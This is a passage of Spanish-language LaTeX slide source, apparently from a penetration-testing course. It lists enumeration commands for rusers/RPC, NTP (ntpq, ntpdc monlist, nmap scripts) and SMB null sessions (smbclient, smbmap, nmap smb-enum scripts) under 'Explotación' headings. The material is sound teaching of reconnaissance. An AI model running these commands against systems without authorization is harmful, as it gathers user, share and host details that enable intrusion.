
\includegraphics[width=\textwidth,height=0.88\textheight,keepaspectratio]{img/sl054_1.png}
\end{frame}

\begin{frame}{RPC}
\centering

\includegraphics[width=\textwidth,height=0.88\textheight,keepaspectratio]{img/sl054_2.png}
\end{frame}

\begin{frame}[allowframebreaks]{Rusers}
\small
  \begin{itemize}
  \item Funcionalidad: Es un servicio/comando de los antiguos R services de Unix que permite obtener información sobre usuarios que tienen sesiones activas en sistemas remotos. rusers utiliza el servicio rusersd para consultar qué usuarios están conectados a un sistema. Normalmente está asociado a RPC, por lo que puede aparecer al enumerar servicios RPC.
  \item Puertos: no usa un puerto fijo. Se registra en el portmapper/rpcbind (111/TCP-UDP), que es quien indica en qué puerto dinámico escucha \cmd{rusersd}.
  \item Vulnerabilidad: Dependiendo de la configuración del servidor, una consulta puede devolver información como: nombre de usuario, host desde el que se conecta, terminal, hora de inicio de sesión y tiempo de inactividad de cada sesión abierta.
  \item Explotación:
    \begin{itemize}
      \item \cmd{rpcinfo -p TARGET}
      \item El programa RPC 100002 corresponde tradicionalmente a rusers
      \item \cmd{rusers TARGET}
    \end{itemize}

  \end{itemize}
\end{frame}

% ====================================================================
% 123/UDP --- NTP
% ====================================================================

\begin{frame}[allowframebreaks]{NTP (Network Time Protocol)}
\small
  \begin{itemize}
  \item Funcionalidad: Permite sincronizar la hora de todos los sistemas.
  \item Puertos: 123/UDP
  \item Vulnerabilidad: Fuga de información como lista de hosts, IPs, nombres de máquinas, sistemas operativos
  \item Explotación:
    \begin{itemize}
    \item ntptrace es una herramienta para enumerar y diagnosticar servidores NTP. Intenta averiguar de dónde obtiene la hora un servidor NTP y construye una especie de cadena de sincronización. Ejemplo: ntptrace 192.168.1.10
    \item ntpq sirve para consultar y diagnosticar un servidor NTP. NTP puede revelar información sobre cómo está configurado y con qué otros servidores se sincroniza. 
    \item \cmd{ntptrace} $\rightarrow$ ¿De dónde obtiene la hora este servidor?
    \item \cmd{ntpq} $\rightarrow$ ¿Cómo está funcionando/configurado su servicio NTP?
    \item Ejemplos: 
        \begin{itemize}

    \item \cmd{ntpq -c readlist <IP\_ADDRESS>}
      \item \cmd{ntpq -c readvar <IP\_ADDRESS>}
      \item \cmd{ntpq -c peers <IP\_ADDRESS>}
      \item \cmd{ntpq -c associations <IP\_ADDRESS>}
      \item \cmd{ntpdc -c monlist <IP\_ADDRESS>}
      \item \cmd{ntpdc -c listpeers <IP\_ADDRESS>}
      \item \cmd{ntpdc -c sysinfo <IP\_ADDRESS>}
          \end{itemize}
\item La herramienta nmap y sus NSE también permite enumerar el servicio / protocolo NTP:
        \begin{itemize}      
\item \cmd{nmap -sU -p 123 -{}-script ntp-info <target>}
    \item \cmd{nmap -sU -pU:123 -Pn -n -{}-script=ntp-monlist <target>}
\end{itemize}
  \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{NTP}
\centering

\includegraphics[width=0.42\textwidth,height=0.26\textheight,keepaspectratio]{img/sl040_1.png}\\[2mm]

\includegraphics[width=0.42\textwidth,height=0.56\textheight,keepaspectratio]{img/sl040_2.png}
\end{frame}

% ====================================================================
% 137-139 y 445/TCP --- SMB / NetBIOS
% ====================================================================

\begin{frame}[allowframebreaks]{SMB (NetBIOS y Server Message Block)}
\small
  \begin{itemize}
  \item Funcionalidad: Compartición de carpetas y documentos
  \item Puertos: 137/TCP, 139/TCP, 445/TCP, 137/UDP, 138/UDP
  \item Vulnerabilidad: Sesiones nulas habilitadas
  \item Permite obtener gran cantidad de información del equipo como usuarios, grupos, carpetas compartidas, políticas, nombre del equipo, versión de Windows, versión/protocolo SMB, información del servidor, nombre NetBIOS

  \item Explotación:
    \begin{itemize}
    \item \cmd{smbclient -L \textbackslash{}\textbackslash{}[ip]}
    \item \cmd{nmap -{}-script smb-enum-shares -p 139,445 [ip]}
    \item \cmd{nmap -{}-script smb-enum-users [target host]}
    \item \cmd{smbmap -H [ip]}
    \item \href{http://www.unixwiz.net/tools/nbtscan.html}{nbtscan} -r [IP]
    \end{itemize}
  \item Lectura ejemplos: \href{https://medium.com/r3d-buck3t/exploiting-remote-file-inclusion-with-smb-963aec325908}{leer1} \href{https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/NFS-RPC/commands.txt}{leer2}
  \item Lectura sobre \href{https://resources.infosecinstitute.com/topic/exploiting-nfs-share/}{NFS}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{SMB}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl010_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl010_2.png}
\end{center}
\end{frame}

\begin{frame}{SMB}
\centering

\includegraphics[width=0.66\textwidth,height=0.42\textheight,keepaspectratio]{img/sl010_3.png}\\[1mm]

\includegraphics[width=0.66\textwidth,height=0.42\textheight,keepaspectratio]{img/sl010_4.png}
\end{frame}

\begin{frame}[allowframebreaks]{SMB}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl011_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl011_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{SMB}
